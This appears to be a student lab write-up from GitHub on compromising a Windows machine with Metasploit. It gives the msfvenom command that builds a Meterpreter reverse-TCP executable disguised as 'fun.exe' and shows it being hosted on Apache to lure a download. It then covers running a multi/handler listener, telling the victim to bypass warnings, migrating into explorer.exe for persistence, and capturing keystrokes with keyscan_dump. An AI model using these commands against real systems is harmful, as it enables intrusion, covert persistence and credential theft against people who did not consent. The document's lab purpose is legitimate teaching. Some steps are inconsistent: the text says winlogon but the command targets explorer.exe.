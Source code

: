 ## Compromising windows using Metasploit
Metasploit

Compromising windows using Metasploit
AIM:

To Compromise windows using Metasploit .
DESIGN STEPS:
Step 1:

Install kali linux either in partition or virtual box or in live mode
Step 2:

Investigate on the various categories of tools as follows:
Step 3:

Open terminal and try execute some kali linux commands
OUTPUT:

![280442420-54fd799e-0076-4a17-bf93-6dbc1aa42616](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/9fc9fe94-c417-44b6-a0fb-9f4c90fed9ce)


Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![280442460-04ceff39-1fbe-4361-bca3-b851daad372f](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/5caed90d-eeaa-416d-8e6a-819f5c5bf90e)


copy the fun.exe into the apache /var/www/html folder ![280442496-ac2a0aa4-7bde-4410-a933-304df04ce31f](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/6b0acb22-92ad-40e0-beaa-8defd3a027c1)


Start apache server sudo systemctl apache2 start ![280442530-540832c2-a032-4a9a-848b-e14f860b2bd5](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/2fb50559-5938-49b4-b6be-9757cdb0a7ef)


Check the status of apache2 ![280442562-a57a2348-c4de-4fb2-a465-904b37cfb9b0](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/67a253d4-d257-4e81-8a28-499b5c0ce1ab)


Invoke msfconsole:
OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit ![280442630-9aa19a10-610e-4743-83cd-f59011002911](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/35759e69-33d1-45be-a5c2-34598853cf5d)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. ![280442661-7ee54804-21c1-4c37-9aea-468f1c00dda1](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/475c09b3-75d2-4a11-a00f-3720c954e288)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit image ![280442689-410a522c-76c1-4167-be8e-802769ae87f8](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/58117e5f-64c9-435f-af76-7e45cf3be7f7)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156 ![280442732-0f965d4a-97b7-4797-9966-75188d713fc3](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/48b464f9-f146-41cc-aaed-534e02df701e)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted ![280442797-84ffdbba-6b4f-446e-8185-af7fef514caa](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/4f97250f-58f3-4d68-8123-b2bf58c57649)


keyscan_dump Shows the keystrokes captured so far ![280442832-f5f4a0a2-39cf-4592-9459-4840c30e9745](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/86d24b54-f783-482c-9f31-aa0fdc2172f9)

RESULT:

The Metasploit framework is used to compromise windows and is examined successfully.
